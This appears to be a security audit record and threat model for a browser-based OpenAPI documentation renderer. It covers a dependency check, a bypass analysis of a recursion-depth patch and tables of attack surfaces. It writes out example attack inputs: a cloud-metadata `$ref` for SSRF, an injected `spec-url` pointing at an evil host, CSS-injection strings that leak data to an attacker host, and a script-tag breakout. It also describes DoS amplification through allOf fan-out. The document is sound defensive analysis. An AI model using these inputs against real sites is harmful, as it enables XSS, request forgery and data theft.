## Lockfile audit (`package-lock.json`)
Single resolved `minimist` entry: **1.2.8** (line 30475–30478). All transitive requestors (`mocha`, `mkdirp`, `webpack-cli` deps, etc.) declare `^1.2.x` ranges which hoist to 1.2.8 — well above the 1.2.6 patch line for CVE-2022-0686 (and also above 1.2.8 fix for CVE-2021-44906). `minimist-options@4.1.0` is unrelated (different package).

Nested `tsconfig-paths` requires `json5@^1.0.1 → minimist@^1.2.0`; npm still resolves to hoisted 1.2.8. No duplicate vulnerable copy is materialized.

## Bypass verdict
**sound**

## Evidence
- Only one `minimist` version resolved in the lockfile: 1.2.8 (>= fixed 1.2.6).
- No first-party CLI parsing surface remains in this repo to re-introduce a vulnerable sink.
- Dependency was transitive-only; prototype-pollution gadget requires attacker-controlled argv, which does not exist in Acme's runtime (library + dev tooling only).

## Cluster
p2-066-068 (dependency-bump cluster: handlebars/fast-xml-parser/minimist). No drafts produced — fix is complete and not bypassable in the present tree.

---

### ddde105-deref-depth

# Patch ddde105 — deref depth limit [undisclosed]

## Summary
Adds `MAX_DEREF_DEPTH = 999` to `OpenAPIParser.deref`. When `baseRefsStack.length > 999`, the current resolution is tagged `x-circular-ref: true` instead of recursing further. Sole call site updated: `src/services/OpenAPIParser.ts:108`.

## Verdict: bypassable / relocated (partial mitigation only)

## Evidence

### 1. Recursive guard covers only the chained-`$ref`→`$ref` case
The `MAX_DEREF_DEPTH` check sits inside the `isRef(resolved)` branch (lines 96–119). It limits recursion only when a `$ref` resolves to another `$ref` directly. The `refsStack` is the same object passed through tree traversal by `SchemaModel`/`mergeAllOf`, so the check fires for any caller whose stack exceeds 999 — that part is fine. However the stack is path-counted (one entry per traversed `$ref`), not frame-counted, so the bound is effectively per-traversal-path, not global.

### 2. Stack growth is concatenated across `x-refsStack`
`concatRefStacks(baseRefsStack, objRefsStack)` at line 94 merges `x-refsStack` annotations into `baseRefsStack`. An attacker who crafts an allOf chain where each sub-schema carries an `x-refsStack` of length ~999 reaches the cap immediately, but the parser still performs the merge work in `mergeAllOf` (lines 169-…), which is invoked unconditionally before the depth check. mergeAllOf recurses on `subSchema` regardless of stack size; the only break is `schema['x-circular-ref']` short-circuit at line 174. A ref chain of size ≤999 with high fan-out (each node having N allOf children, each $ref'ing different definitions) yields O(N^999) work — depth limit does nothing against breadth.

### 3. Amplification by downstream consumers (confirmed)
`SchemaModel` (Schema.ts:91) calls `parser.deref`, then `parser.mergeAllOf`, then walks properties/oneOf/items recursively, constructing a fresh `SchemaModel` per property (lines 196-207, 252, 377, 410). Each new `SchemaModel` re-invokes `deref` with its own copy of `refsStack`. The 999 cap is therefore re-applied per branch — a spec with B branches × 999 deep = B×999 deref frames. Combined with `MenuBuilder`, `Field`, `RequestBody`, `Response`, `Callback`, `Webhook`, `Example`, `SecurityRequirement`, `MediaType.example`, each independently constructs SchemaModels that re-deref. A single 999-deep ref chain re-derefed once per operation in a large spec can hit O(operations × 999 × spec_size).

### 4. `byRef` performs no depth tracking
`byRef` (line 53) is a public helper that calls `JsonPointer.get` and returns raw spec fragments. It is invoked by `deref` but is also exported on the parser. If any consumer in models layer reads `$ref` manually then calls `byRef`, the depth tracker is bypassed entirely. (Audit: no current external callers found, but it is a public method that any future code path could exploit — and tests call `deref` directly.)

### 5. `MediaContent.ts:36` mentions "reset deref cache" — no actual depth/cache reset
The deref cache comment is stale; no cache exists in this parser. No additional protection there.

### 6. Limit chosen for stack-overflow avoidance, not DoS
999 frames × JS engine frame size (~few hundred bytes for the closure + Array.includes O(n) over stack) = ~O(999²) = ~10^6 includes ops per deref chain. Multiplied by O(properties) and O(operations) in a large spec, an attacker still triggers multi-second main-thread blocking — meaningful browser DoS even though the process does not crash. Limit prevents the crash but not the DoS.

### 7. `baseRefsStack.includes(obj.$ref)` ordering bug (pre-existing, not introduced)
The circular check uses `Array.prototype.includes` which is O(n). At depth 999 each new frame costs O(999) for the check — quadratic. Setting MAX_DEREF_DEPTH=999 caps this at ~500k ops per traversal, but the include check itself amplifies pathological inputs.

## Alternate dereference helpers — none bypass the guard
Grepped `src/` for `deref|byRef|resolveRef|getRefByPath|dereference`. All consumers funnel through `parser.deref` (which has the new guard) or `parser.byRef` (no depth tracking; only used internally). No second resolver exists.

## Cluster ID
cluster-deref-dos (standalone; no sibling commits in the surrounding window).

## Confirmed bypass classes
- B1: Breadth-based amplification through allOf/oneOf fan-out — depth limit is per-path, total work O(N^depth).
- B2: Cross-model amplification — each `SchemaModel`, `Field`, `MenuBuilder` traversal re-derefs the same chain with a fresh stack.
- B3: DoS (not crash) survives — main-thread blocking via O(depth²) includes plus repeated mergeAllOf.

## Recommendation for follow-up findings
Only B2/B3 rise to "interesting" — and they are well within the documented behavior of a client-side renderer for large specs. Browser DoS via an attacker-supplied OpenAPI spec is a low-severity issue in the acme threat model (the spec author is trusted in nearly all deployments). No P2-class finding warranted; logging here for completeness.


---


---

# Phase D4 — Threat Model & Architecture (appended)

## Project Classification

- **Type:** client-side JavaScript library + browser web-component (`<acme>`) + standalone UMD/IIFE script (`bundles/acme.standalone.js`) + ESM/CJS library bundles (`bundles/acme.lib.js`, `bundles/acme.browser.lib.js`).
- **Runtime:** browser (primary). SSR via `Acme` + `hydrate` is supported (`src/standalone.tsx:83`). Node consumption by sibling `acme-cli` package (out-of-repo) for static HTML generation.
- **Function:** ingests an OpenAPI 3.x or Swagger 2.x document (JSON or YAML, by URL/inline object/HTML attribute) and renders interactive HTML API reference documentation.
- **No backend service. No persistent data store. No authentication or authorization layer in this code base.** All security concerns are client-side: XSS, SSRF-via-`$ref`, CSS injection, DoS via pathological specs, supply-chain integrity, and embedding-application contract risks.
- Distribution channels: npm (`acme`), CDN (cdn.acme.ly / jsDelivr / unpkg), Docker image (`config/docker/Dockerfile`), AWS S3 demo (`production-acme-demo`).

## Architecture Model

- **Multi-service: false** — single-process, single-bundle browser library. No internal HTTP/gRPC/queue/IPC peers. There is one Web Worker (`SearchWorker.worker.ts`) loaded via `workerize-loader`, but it shares origin, same-process trust, and an in-memory `postMessage` channel only; it is not an independently deployable service.

**Components (logical, all in-bundle):**

| Component | Path | Role | Trust input |
|---|---|---|---|
| Standalone bootstrap | `src/standalone.tsx` | Reads `<acme>` element attributes → constructs `AcmeStandalone`; auto-init reads `spec-url` | DOM attributes from embedding HTML |
| AcmeStandalone / Acme | `src/components/Acme/` | React root, OptionsProvider context | spec + options |
| AppStore | `src/services/AppStore.ts` | Top-level MobX store: SpecStore, MenuStore, SearchStore, options | spec object, options |
| Spec loader | `src/utils/loadAndBundleSpec.ts` | Delegates to `@acmely/openapi-core` `bundle()`; resolves `$ref` (file/http) via configurable `customFetch`; converts Swagger 2 → 3 via `swagger2openapi` | spec URL, raw spec, base URL = `window.location.href` |
| OpenAPIParser | `src/services/OpenAPIParser.ts` | Dereferences `$ref`, merges `allOf`, manages cycle/depth tracking (MAX_DEREF_DEPTH=999), discriminator resolution | bundled spec |
| MarkdownRenderer | `src/services/MarkdownRenderer.ts` | `marked` v4 + custom `<Acme-Inject>` / MDX-component regex extension; pipes output to DOMPurify | spec `description`/`summary`/tag descriptions/MD blocks |
| SanitizedMarkdownHTML | `[REDACTED].tsx` | Sanitization gate; calls `dompurify.sanitize(html)` when `options.sanitize === true`, otherwise passes through | rendered HTML |
| SourceCode renderer | `src/components/SourceCode/SourceCode.tsx` | Prism-`highlight()` → `dangerouslySetInnerHTML`. No DOMPurify. | code-sample strings from spec |
| JsonViewer | `src/components/JsonViewer/JsonViewer.tsx` + `src/utils/jsonToHtml.ts` | Hand-rolled HTML builder with `htmlEncode`; emits `<a href="encodeURI(value)">` for `^https?://` strings | spec examples / generated payload samples |
| SearchStore | `src/services/SearchStore.ts` + `SearchWorker.worker.ts` | lunr index built from spec; `add(title, body, meta)`; results rendered in side menu; mark.js highlights query | user query, spec text |
| HistoryService | `src/services/HistoryService.ts` | `decodeURIComponent(window.location.hash)`; `replace()` issues `history.pushState`/`replaceState`; navigation via menu links | URL hash from address bar |
| AcmeNormalizedOptions | `src/services/AcmeNormalizedOptions.ts` | Normalizes `sanitize`/`untrustedSpec`/`theme`/`disableSearch`/`nonce`/`scrollYOffset` | HTML attributes + JS options object |
| OAuth flow / SecurityDetails / ExternalDocumentation / ApiInfo | `src/components/SecurityRequirement/*`, `ExternalDocumentation/`, `ApiInfo/` | Emit `<a href={...spec-derived URL}>`, sometimes `target=_blank` | URL strings from spec |
| Theme | `src/theme.ts` + `styled-components` | Spec/options-supplied theme object interpolated into CSS-in-JS templates | option `theme`, theme JSON parsed from `<acme theme='...'>` attribute |

**Transports:**

- DOM <-> JS via `<acme>` web-component attributes and `Acme.init(spec, opts, el)`.
- Network: `fetch` initiated by `@acmely/openapi-core` (`config.resolve.http.customFetch = global.fetch`, `src/utils/loadAndBundleSpec.ts:23`) for the top-level spec URL and every `$ref` to an absolute or relative URL. No allow-list, no scheme filter, no rate limit — `base = window.location.href`.
- WebWorker `postMessage` between main thread (SearchStore) and `SearchWorker.worker.ts`.
- `window.location.hash` for cross-frame deep-link navigation.

**Trust boundaries (concrete edges):**

1. **Spec author (untrusted) <-> Acme renderer.** The strongest boundary. Spec text is treated as data that can contain HTML (markdown blocks), JSON-schema patterns (potential ReDoS), `$ref` URLs (potential SSRF / cross-origin exfil), code samples (rendered with `dangerouslySetInnerHTML` after Prism highlight, *unsanitized*), and option-influencing `x-` extensions.
2. **Embedding HTML page (semi-trusted) <-> `<acme>` element parser.** HTML attributes including `spec-url`, `theme` (JSON.parse-d at `standalone.tsx:37`), `sanitize`, `untrusted-spec`, `disable-search`, `nonce`, etc. The embedding page can also configure CSP / Trusted Types around the bundle.
3. **Browser (DOM/URL/storage) <-> Acme.** `window.location.hash` (HistoryService), `window.location.href` used as bundle base. No `localStorage`/`sessionStorage`/`IndexedDB` usage in src.
4. **Main thread <-> SearchWorker.** Same-origin, in-process; not a security boundary.
5. **Bundle <-> CDN / npm registry.** Build/release supply-chain boundary (`scripts/publish-cdn.sh`).

## High-Risk DFD Slices







## High-Risk CFD Slices

```mermaid
flowchart TD
  S[loadAndBundleSpec(spec)] --> B{spec is object?}
  B -- yes --> D[bundle parsed in-memory, $refs still resolved by openapi-core]
  B -- no --> R[fetch URL via customFetch]
  R --> CV{swagger 2.0?}
  D --> CV
  CV -- yes --> CC[swagger2openapi convertObj]
  CV -- no --> P[OpenAPIParser]
  CC --> P
  P --> CK{depth > MAX_DEREF_DEPTH 999?}
  CK -- yes --> E[throw / unwrap]
  CK -- no --> P
```





## Attack Surface

| Input source | Where consumed | Sinks reached | Notes |
|---|---|---|---|
| `spec-url` HTML attr | `standalone.tsx:107` → `loadAndBundleSpec` | `fetch`, `OpenAPIParser`, `MarkdownRenderer`, all renderers | SSRF only constrained by browser SOP/CORS; full document control downstream |
| `<acme spec='...'>` inline spec | not directly read; consumers pass `spec` to `init(spec, ...)` | same | object form skips fetch but still triggers `$ref` resolution if refs are URLs |
| `<acme theme='{...}'>` attr | `standalone.tsx:37` `JSON.parse(optionValue)` | `styled-components` CSS interpolation; values like `colors.primary.main` flow into CSS `${}` strings | Untrusted CSS values from page authors → CSS expression injection / `}` escape / `expression()`-style attack vectors (theme is parsed *only* for the `theme` attribute; other JSON option attributes are not parsed) |
| `<acme>` other kebab-case attrs | `parseOptionsFromElement` | AcmeNormalizedOptions | Strings only; coerced by `argValueToBoolean` etc.; includes `sanitize`, `untrusted-spec`, `disable-search`, `nonce`, `download-definition-url` |
| `Acme.init(opts)` JS options | bypasses attribute parsing | AcmeNormalizedOptions | Full TS type, including arbitrary `theme` object and `allowedMdComponents` |
| Spec `description`, `summary`, tag descriptions, `info.description`, `info.termsOfService`, `externalDocs.description`, response/parameter `description`, schema `description`, example `summary` | MarkdownRenderer → SanitizedMarkdownHTML | DOMPurify (if enabled) → `dangerouslySetInnerHTML` | Default sanitize=false; XSS unless embedder opts in |
| Spec `<Acme-Inject>` / MDX-style components in markdown | `MarkdownRenderer.COMPONENT_REGEXP` | allowed components only via `allowedMdComponents` | Custom MDX-component parsing — risk of regex misparse → DOM mis-injection |
| Spec code-samples (`x-codeSamples[].source`, response examples, request samples) | `SourceCode` | Prism `highlight()` → `dangerouslySetInnerHTML` **without DOMPurify** | Trusted to be HTML-safe because Prism `highlight()` HTML-escapes input before tokenizing, but any future regression in highlighter or in `lang === 'html'` round-trip is a direct XSS sink |
| Spec example bodies (JSON) | `JsonViewer` → `jsonToHtml` | `dangerouslySetInnerHTML` | Keys/values go through `htmlEncode`; URL strings inserted into `<a href="encodeURI(value)">` — `javascript:`/`data:` would not match `^(http\|https)://`, but a `https://attacker"onclick=...` cannot escape because the value is `encodeURI`'d; verify there is no second-quote breakout. Open: keys are encoded but inserted inside double-quoted `class="property token string"` — fine |
| Spec `info.license.url`, `info.contact.url`, `info.termsOfService`, `externalDocs.url`, `info.contact.email` | `ApiInfo.tsx` | `<a href={...}>` without `rel="noopener noreferrer"` (license/contact/terms have NO `target=_blank` so noopener N/A; download URLs in `ApiInfo.tsx:86-87` DO use `target=_blank` with no rel) | `javascript:` URL XSS via `href`; tabnabbing via download URLs |
| Spec security scheme `openIdConnectUrl`, OAuth `authorizationUrl`, `tokenUrl`, `refreshUrl`, `scopes` | `SecurityDetails.tsx:46`, `OAuthFlow.tsx:27` | `<a target="_blank" rel="noopener noreferrer" href={spec-value}>` | `javascript:`/`data:` schemes; rel guards opener but not scheme |
| Spec `servers[].url`, `servers[].variables` | rendered in middle panel | template substitution | open for path traversal in displayed server URL — purely cosmetic but could mislead users |
| Spec `externalValueUrl` on examples | `Example.tsx:34-35` | `<a href={...} target=_blank>` (rel may be missing — verify) | tabnabbing |
| URL hash | `HistoryService.currentId` | `MenuStore` lookup (string compare) | not a DOM sink directly; influences scroll target |
| User search field | `SearchStore.search(q)` → lunr → mark.js highlight | DOM (mark.js wraps matches) | mark.js historically sound; verify lunr query parser doesn't ReDoS on adversarial input |
| `<acme> nonce` attribute | flowed into emitted `<style nonce=...>` tags by styled-components | DOM | If embedder relies on CSP-nonce, an attacker who controls the attribute (e.g., reflective HTML) gets a valid nonce |

## Framework Contracts and Hidden Control Channels

- **`options.sanitize` is opt-in.** Default is `false`. Embedder must set `sanitize: true` or `untrustedSpec: true` (deprecated) to get DOMPurify between marked output and `dangerouslySetInnerHTML`. This is documented (`README.md`) but is the single largest contract: if embedder forgets, every markdown block from spec is HTML-as-typed.
- **`options.untrustedSpec`** is deprecated alias of `sanitize` — both `AcmeNormalizedOptions` getter behavior must continue to honor either.
- **`SourceCode` and `JsonViewer` are NOT gated by `options.sanitize`.** They rely on Prism's internal HTML escaping and on `jsonToHtml`'s `htmlEncode` respectively — these are *implicit* contracts, not enforced by DOMPurify.
- **`<acme theme>` is `JSON.parse`-d** without `try/catch` (`standalone.tsx:37`) — malformed JSON throws at attribute-parse time and crashes init. The parsed object is then merged into the theme and interpolated into styled-components template literals as CSS.
- **`@acmely/openapi-core` `bundle()` performs network fetches** by default with `base = window.location.href`. `customFetch = global.fetch` is set unconditionally on browser. There is no allow-list, no per-host limit, no scheme restriction beyond what `fetch` will reject. A spec containing thousands of unique `$ref: https://...` URLs will issue thousands of cross-origin fetches.
- **MAX_DEREF_DEPTH = 999** is the cycle/recursion guard in `OpenAPIParser` (cross-referenced from bypass-analysis cluster). Any new dereference helper that does not consult this guard is a regression risk — recorded as `## Confirmed bypass classes` in the bypass-analysis section already in this KB.
- **`marked` configuration is module-global** (`marked.setOptions({ renderer, highlight })` in `MarkdownRenderer.ts:9`). Any consumer of `marked` in the same bundle inherits Acme's renderer.
- **Marked custom regex `MDX_COMPONENT_REGEXP`** is a hand-rolled `[\s\S]*?` matcher around `<{component}` tags. Catastrophic-backtracking risk on long inputs is plausible — `gmi` flag and the nested non-greedy `[\s\S]*?` over user content is the classic ReDoS shape.
- **`workerize-loader` (`github:acmely/workerize-loader#webpack-5-dist`)** is a fork pinned to a git ref, not a registry tag — supply-chain trust depends on that fork being immutable.
- **Web-component attribute API is permissive**: every attribute becomes a camelCased option key. Future-added attributes can be set by anyone who controls the embedding HTML, including by reflected-HTML attackers in the host application.
- **No CSP / Trusted Types policy declared inside the bundle.** Compatibility with `require-trusted-types-for 'script'` is *not* enforced and would likely break at every `dangerouslySetInnerHTML` site unless the host app installs a permissive policy.
- **SSR `hydrate()` accepts a pre-serialized `StoreState`** — if a host app serializes spec state into HTML and ships it inline, the integrity of that serialization is the host app's contract.

## Threat Model

### Assets

- **Integrity of the embedding application's DOM** (XSS into host origin via spec content).
- **Confidentiality of the user's browser session** (cookies, tokens, localStorage of embedding app) — exfiltrated by spec-driven XSS.
- **Cross-origin information leakage** (SSRF via `$ref` causes browser to issue cross-origin requests that leak Referer / spec-content to attacker-controlled hosts; in some intranet scenarios, used as a CORS-mediated probe).
- **Availability of the rendering tab** (DoS via deep `$ref` chains, ReDoS in markdown component regex, large spec balloons via `allOf` expansion).
- **Bundle supply-chain integrity** (`bundles/*.js` published to CDN/npm — tampering would XSS millions of pages).
- **Embedded-page secrets surfaced via CSP nonce reuse** (attacker-supplied `nonce` attribute).

### Threat Actors

1. **Malicious or compromised OpenAPI spec author / spec hosting server** — supplies hostile spec to a legitimate Acme embedding. Capability: full control over `description` markdown, code samples, server URLs, security URLs, `$ref` targets, JSON Schema patterns.
2. **Malicious embedding-page author** — chooses to display a third-party spec but injects hostile options/theme via HTML attributes. Limited interest (they already control the page); main risk is mis-configuration (forgot `sanitize`).
3. **Reflected-HTML attacker against the embedding app** — controls part of the HTML around `<acme>`, can inject/modify attributes (`spec-url`, `theme`, `nonce`, `sanitize=false`).
4. **Network attacker between browser and spec-hosting server** — MITM the spec fetch (mitigated by HTTPS deployment, not by Acme).
5. **Supply-chain attacker** — compromises CDN, npm release, or `workerize-loader` git ref.
6. **End user visiting docs page** — generally trusted, but can supply ReDoS-shaped query strings to search.

### Non-capabilities (anti-inflation)

- No server-side execution: no RCE in Acme itself; sandbox is the browser.
- No persistent storage: no risk of poisoned local state surviving page reload (except URL hash, which the user controls).
- No auth/authz primitives: no privilege escalation within Acme.

### Top abuse paths (likelihood x impact)

| # | Abuse path | Likelihood | Impact | Priority |
|---|---|---|---|---|
| T1 | Spec author injects `` / `<script>` in `description` markdown; embedder did not enable `sanitize` -> XSS in embedder origin | High | High (full XSS) | **Critical** |
| T2 | Spec author crafts `$ref` chain to attacker-controlled host -> browser leaks intranet reachability / spec content via cross-origin fetch (SSRF-by-victim-browser) | Medium | Medium | High |
| T3 | DOMPurify bypass (CVE class recurring in <3.2.4) used in `description` even when `sanitize=true` | Low-Medium (depends on dompurify version drift) | High | High |
| T4 | ReDoS via crafted markdown that hits `MDX_COMPONENT_REGEXP` `[\s\S]*?` nested non-greedy match -> render thread freeze | Medium | Low-Medium (DoS only) | Medium |
| T5 | Deep `$ref` recursion or massive `allOf` expansion bypasses `MAX_DEREF_DEPTH` via an alternate helper -> memory exhaust / hang | Low (one such bypass class is already confirmed in bypass-analysis) | Medium | Medium |
| T6 | Spec `info.license.url` / `info.contact.url` / `info.termsOfService` / `externalDocs.url` = `javascript:...` -> click-driven XSS (sanitize does NOT cover these; they are React `<a href={...}>`) | Medium | High | High |
| T7 | Spec OAuth `authorizationUrl` / `tokenUrl` / `openIdConnectUrl` = `javascript:` -> click-driven XSS | Medium | High | High |
| T8 | Reflected-HTML attacker in host app sets `<acme sanitize="false" spec-url="https://evil/spec.json">` -> XSS via hostile spec | Medium | High | High |
| T9 | Reflected-HTML attacker sets `<acme theme='{"colors":{"primary":{"main":"red;}body{...}"}}'>` -> CSS escape via styled-components interpolation | Medium | Medium | Medium |
| T10 | Attacker controls `<acme nonce>` and embedder has `script-src 'nonce-...'` CSP -> attacker scripts get a valid nonce | Low | High | Medium |
| T11 | `externalValueUrl` / download URLs with `target=_blank` without `rel="noopener noreferrer"` -> reverse-tabnabbing | Medium | Low | Low |
| T12 | Supply-chain compromise of `acme.standalone.js` on CDN | Low | Critical | High |
| T13 | Malicious spec uses `customFetch` indirectly to fetch `file://` or local intranet via relative `$ref` resolved against `window.location.href` | Low | Medium | Medium |
| T14 | `JSON.parse(theme attribute)` throws on malformed JSON, crashing init across the page (no try/catch in standalone.tsx) | Low | Low | Low |

## Domain Attack Research

### A. OpenAPI / JSON-Schema / `$ref` resolution

| Attack class | Vector | Acme-specific notes |
|---|---|---|
| `$ref` SSRF | `{"$ref": "http://169.254.169.254/..."}` | `bundle()` uses `customFetch = global.fetch` with `base = window.location.href`; cloud-metadata blocked by browser SOP only if response lacks CORS; intranet GET still occurs |
| `$ref` cycle / billion-laughs | nested refs through `allOf`/`oneOf` | Guarded by `MAX_DEREF_DEPTH=999` in `OpenAPIParser` (see existing bypass-analysis cluster) |
| Alternate dereference helper bypassing depth guard | non-`OpenAPIParser` paths | One bypass class confirmed in this KB's bypass-analysis section |
| JSON Pointer escaping (`~0`, `~1`) | `$ref: "#/components/schemas/foo~1bar"` | uses `json-pointer` lib v0.6.2 — prototype-pollution surface if pointers ever assign to objects |
| Swagger 2 -> OpenAPI 3 conversion | `swagger2openapi.convertObj` | runs with `patch:true, warnOnly:true` (lenient) on attacker-controlled spec |
| YAML deserialization | spec served as YAML | `@acmely/openapi-core` uses `js-yaml`; ensure `SAFE_SCHEMA` (no `!!js/function`) |
| `additionalProperties` schema explosion | render every property recursively | DoS via display, not just parse |

### B. Markdown / DOMPurify / `dangerouslySetInnerHTML`

| Attack class | Acme-specific notes |
|---|---|
| Marked v4 XSS via raw HTML | mitigated only when `sanitize=true` (DOMPurify) |
| DOMPurify <3.2.4 bypass via SVG/MathML namespace confusion or template-tag mutation | dompurify pinned to `^3.2.4` (verify lockfile) |
| `<style>` tag CSS exfil via DOMPurify default config | dompurify config is *default* in `SanitizedMdBlock.tsx`; `<style>` was historically allowed |
| `javascript:`/`data:` URL in `<a href>` allowed by some DOMPurify configs | default profile of dompurify 3.x sanitizes `javascript:` |
| Mutation XSS (mXSS) from spec markdown surviving DOMPurify | recurring CVE class — track upstream |
| Marked legacy `<!-- Acme-Inject: ... -->` comments | `LEGACY_REGEXP` allowed; only specific component names |
| Custom `MDX_COMPONENT_REGEXP` ReDoS | `[\s\S]*?` nested non-greedy + `gmi` |

### C. React / web-component attribute injection

| Attack class | Acme-specific notes |
|---|---|
| Attribute-injected `sanitize=false` from reflected HTML | possible — single-attribute decision |
| Attribute-injected `spec-url` -> arbitrary spec | possible |
| `theme` attribute = malicious JSON -> CSS injection via styled-components | possible; styled-components 5 does NOT sanitize CSS interpolations |
| `nonce` attribute reuse for CSP-nonce bypass | possible |

### D. styled-components CSS injection

styled-components 5.x interpolates `${props => props.theme.X}` verbatim into the rendered CSS. Any spec/theme-supplied string in `theme.colors.*`, `theme.typography.*`, `theme.codeBlock.backgroundColor`, etc., that contains `;` or `}` can break out of the property and add arbitrary rules — including `@import url(//attacker)`, exfiltration via `background:url(//attacker?leak=...)` over `attr()`, or `behavior:` on legacy IE.

### E. URL handling

- `<a href={spec.info.license.url}>` and friends: no scheme allow-list. React does NOT block `javascript:` in `href` until React 18 began warning; it does not throw. Recommend explicit URL hygiene at render time.
- `<a href={url} target="_blank">` in `ApiInfo.tsx:86-87` and `Example.tsx:34-35` lacks `rel="noopener noreferrer"` — reverse tabnabbing.

### F. Web Worker / lunr / mark.js

- `lunr` query parser DoS: special characters can produce expensive expansions; minCharacterLengthToInitSearch is a configurable defense.
- `mark.js` wraps matches in real DOM nodes safely; not a sink.

### G. JSON-to-HTML viewer (`jsonToHtml`)

- `htmlEncode` does not encode single-quote. Keys/values are placed inside double-quoted attributes (`class="..."`) — safe.
- `<a href="encodeURI(value)">` opens link if value matches `^(http|https)://`. `encodeURI` does NOT encode `'`. A value like `https://x'/><script>alert(1)</script>` becomes `https://x'/%3E%3Cscript...` because the regex test will pass and `encodeURI` percent-encodes `<>`. Single-quote `'` is preserved but the attribute uses double-quote — safe in HTML4/5, but verify no JSX-style template gets it.

### Recent CVE / advisory sweep (last 12 months, relevant ecosystem)

- DOMPurify mXSS / namespace-confusion fixes through 3.2.x (track each minor).
- `marked` v4 → v5/12 had multiple advisories; this repo pins `marked@^4.3.0` — confirm no known v4.3.x XSS.
- `@acmely/openapi-core` SSRF/path-traversal fixes — already tracked in this KB's advisory section.
- `prismjs` ReDoS in language grammars (multiple) — `prismjs ^1.29.0` is current at time of writing.

## Phase D5 CodeQL / Static-Analyzer Extraction Targets

| Source kind | Location | Source label |
|---|---|---|
| RemoteFlowSource: top-level spec | `loadAndBundleSpec` argument (URL or object) → `parsed` | `spec.*` |
| RemoteFlowSource: `$ref`-fetched documents | `@acmely/openapi-core` `bundle()` return value | inherits `spec.*` |
| LocalUserInput: HTML attributes | `parseOptionsFromElement(element)` → `options.*` | `attr.*` |
| LocalUserInput: theme JSON | `JSON.parse(optionValue)` at `standalone.tsx:37` | `attr.theme.*` |
| LocalUserInput: URL hash | `window.location.hash` in `HistoryService.currentId` | `url.hash` |
| LocalUserInput: search query | `SearchStore.search(q)` argument | `query` |
| LocalUserInput: query string | `demo/` HTML pages | `url.search.*` (DEMO ONLY — out of prod scope) |
| Environment: `window.location.href` | `loadAndBundleSpec.ts:19` used as fetch base | `env.windowLocation` |

| Sink kind | Location | Sink label |
|---|---|---|
| `dangerouslySetInnerHTML` | `[REDACTED].tsx:30` | dom-html-injection (gated by `options.sanitize`) |
| `dangerouslySetInnerHTML` | `src/components/SourceCode/SourceCode.tsx:14` | dom-html-injection (ungated; trusts Prism) |
| `dangerouslySetInnerHTML` | `src/components/JsonViewer/JsonViewer.tsx:48` | dom-html-injection (trusts `jsonToHtml`) |
| Anchor `href={...}` | `src/components/ApiInfo/ApiInfo.tsx:{39,48,57,65,87}`, `ExternalDocumentation.tsx:25`, `SecurityDetails.tsx:46`, `OAuthFlow.tsx:27`, `Example.tsx:34` | dom-anchor-href (scheme-injection / tabnabbing) |
| `fetch` via `customFetch` | `loadAndBundleSpec.ts:23` (set) and within `openapi-core` bundle | ssrf-fetch |
| `JSON.parse` on untrusted attr | `standalone.tsx:37` | json-parse (DoS / throw) |
| Template-literal CSS interpolation | `styled-components` styled fragments referencing `theme.*` | css-injection |
| RegExp built from user input | `MarkdownRenderer.containsComponent` builds `new RegExp(COMPONENT_REGEXP.replace('{component}', componentName), 'gmi')` | redos |
| `decodeURIComponent` on URL hash | `HistoryService.ts:16` | uri-decode (DoS via malformed) |
| `eval` / `new Function` | none expected; confirm no occurrence outside of dependency code | code-execution |

`Function`/`eval`/`document.write`/`innerHTML`/`window.location=`/`window.open` direct calls: grep showed only `window.location.href` / `window.location.hash` *reads*; no `document.write`; `window.open` not used; `innerHTML` only via `dangerouslySetInnerHTML` above. Phase D5 should still keep these in the rule pack as negative-assertion sinks.

## Spec Gap Candidates (Phase D9 inputs)

The library implements display/handling per these specs:

- **OpenAPI 3.0.x** and **3.1.x** (object model, security schemes, callbacks, webhooks, discriminator, `oneOf`/`anyOf`/`allOf`, `$ref`).
- **OpenAPI 2.0 (Swagger)** via `swagger2openapi` conversion.
- **JSON Pointer (RFC 6901)** via `json-pointer` dependency.
- **JSON Schema Draft 4 / Draft 2020-12** subsets used by OpenAPI.
- **RFC 6570 URI Templates** via `url-template` for server-variable substitution.
- **OAuth 2.0 (RFC 6749) flows** rendered in `SecurityRequirement/OAuthFlow.tsx`: implicit, authorizationCode, password, clientCredentials.
- **OpenID Connect Discovery 1.0** (`openIdConnectUrl`).
- **HTTP Authentication scheme registry (RFC 7235)** for `securitySchemes.type=http`.
- **CommonMark / GitHub-flavored markdown subset** via `marked` v4 (no strict CommonMark profile asserted).
- **MDX-component-like inline tag syntax** — Acme-defined dialect (no external spec). `<Acme-Inject>` legacy comment dialect — Acme-defined.

Spec-gap candidates Phase D9 should examine:

- Are all OpenAPI 3.1 `security` semantics (logical AND/OR composition, optional empty `{}`) rendered faithfully? Spec says empty requirement object = "no auth"; misrender could mislead users.
- `discriminator.mapping` resolution per OpenAPI 3.0.3 §4.7.25 — does Acme accept both `$ref` and short names?
- OAuth `scopes` rendering: spec mandates object of scope name → description; Acme behavior on non-string values.
- OIDC discovery URL: should not be auto-fetched; verify Acme only displays, does not GET.
- URL-template `{var}` per RFC 6570 levels — Acme historically supports only Level 1.

## Known False-Positive Sources

The following patterns commonly appear as findings but are out-of-context for this codebase. Subsequent SAST/probe phases should down-rank or suppress:

- `dangerouslySetInnerHTML` in `SourceCode.tsx` and `JsonViewer.tsx` — protected by Prism's internal HTML escaping and by `jsonToHtml`'s `htmlEncode`; mark as **review-required, not auto-finding** unless a path to those sinks from un-escaped data is shown.
- `marked` raw HTML — by design; only relevant when `options.sanitize=false` AND spec is untrusted. Default config is "sanitize off"; do NOT report unless paired with a use-case where spec is untrusted.
- `swagger2openapi` warnings emitted to console — not security findings.
- `eslint-disable` directives in `loadAndBundleSpec.ts` for `import/no-internal-modules` — code-style only.
- `decko` / `EventEmitter3` / `path-browserify` standard usage — not vulnerable patterns.
- `lunr` query parser — searches a static in-memory index built from the spec; ReDoS or query-DoS only affects the local rendering tab.
- Tests / snapshots under `src/**/__tests__/**` and `e2e/`, `cypress/`, `benchmark/`, `demo/`, `docs/`, `scripts/`.

## Out-of-Scope Paths

- `demo/**` — demo site, not shipped with the library.
- `benchmark/**` — perf only.
- `e2e/**`, `cypress.config.ts`, `cypress/**` — test infra.
- `src/**/__tests__/**`, `src/setupTests.ts`, `src/__tests__/**` — test code.
- `src/empty.js` — Jest CSS module stub.
- `config/docker/**` — image build only (no runtime code).
- `scripts/**` — release/publish helpers, not part of bundle.
- `docs/**`, `README.md`, `CHANGELOG.md` — documentation.

## Recent Security Context

See `## Advisory Intelligence`, `## Patch List`, `## Bypass Analysis` above for the cve-scout / patch-auditor cluster work, particularly:

